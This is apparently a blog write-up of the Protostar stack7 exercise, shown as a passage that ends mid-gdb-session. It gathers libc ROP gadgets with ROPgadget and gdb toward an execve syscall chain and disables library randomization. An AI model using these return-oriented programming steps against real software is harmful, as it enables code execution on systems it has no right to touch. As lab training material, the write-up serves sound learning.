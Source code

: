 At first, I tried running ROPgadget on the binary ( ./stack7) itself, and only found ~70 gadgets, but nothing useful. After some professional help (thanks @rotlogix) , I learned that you need to run it on the library itself. We need to find what library is being loaded in memory at runtime:

{% highlight shell %}
le91688:~/workspace/proto (master) $ gdb ./stack7
Reading symbols from ./stack7...done.
gdb$ b main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
gdb$ run
Starting program: /home/ubuntu/workspace/proto/stack7 
Breakpoint 1, main (argc=0x1, argv=0xffffd1c4) at stack7/stack7.c:28
gdb$ info sharedlibrary                                             #<<---- get loaded library info
From        To          Syms Read   Shared Object Library
0x55555860  0x5556d76c  Yes (*)     /lib/ld-linux.so.2
0x555a5490  0x556d699e  Yes (*)     /lib/i386-linux-gnu/libc.so.6   #<<------ target library to grab gadgets!
gdb$ quit
{% endhighlight %}

So now we can run ROPgadget on libc.so.6 and pipe it to a file "LIBCgadgets" I will then grep this for gadgets!

{% highlight shell %}
le91688:~/workspace/proto$ ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 > ./LIBCgadgets
le91688:~/workspace/proto$ grep -w "xor eax, eax" LIBCgadgets
0x0007a1fb : test eax, eax ; jne 0x7a1f6 ; xor eax, eax ; ret
0x00094908 : test eax, eax ; jne 0x94986 ; xor eax, eax ; ret
0x00094937 : test eax, eax ; jne 0x949a6 ; xor eax, eax ; ret
0x0002f4d3 : test ecx, ecx ; je 0x2f4ce ; xor eax, eax ; ret
0x000949bd : xor bl, al ; nop ; xor eax, eax ; ret
0x001466dc : xor byte ptr [edx], al ; add byte ptr [eax], al ; xor eax, eax ; ret
0x0002f0ec : xor eax, eax ; ret
le91688:~/workspace/proto$ grep -w "xor eax, eax" LIBCgadgets
{% endhighlight %}

Using this i'm able to find the following useful gadgets:

{% highlight nasm %}
0x000f9482  : pop ecx ; pop ebx ; ret       #load values from stack to ECX, EBX
0x00001aa2  : pop edx ; ret                 #load value in EDX
0x001454c6  : add eax, 0xb ; ret            #add 0xb to EAX
0x0002f0ec  : xor eax, eax ; ret            #Zero out EAX
0x0002e725  : int 0x80                      #syscall
{% endhighlight %}

Now, the memory values for each gadget are the offset within the loaded library, so we need to get the base address of the library when its loaded.

Warning: GDB info sharedlibrary is not a good way to do this and will lead to anger and hatred. Please dont ask me how i know. Instead use the following method. We will also grab the location of "bin/sh" in memory, as done in stack6.

{% highlight shell %}
le91688:~/workspace/proto (master) $ ulimit -s unlimited  <--- DONT FORGET THIS, DISABLE LIBRARY RANDOMIZATION
le91688:~/workspace/proto (master) $ gdb ./stack7
warning: ~/.gdbinit.local: No such file or directory
Reading symbols from ./stack7...done.
gdb$ b main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
gdb$ run
Starting program: /home/ubuntu/workspace/proto/stack7 
Breakpoint 1, main (argc=0x1, argv=0xffffd1c4) at stack7/stack7.c:28
warning: Source file is more recent than executable.
28        getpath();
gdb$ p system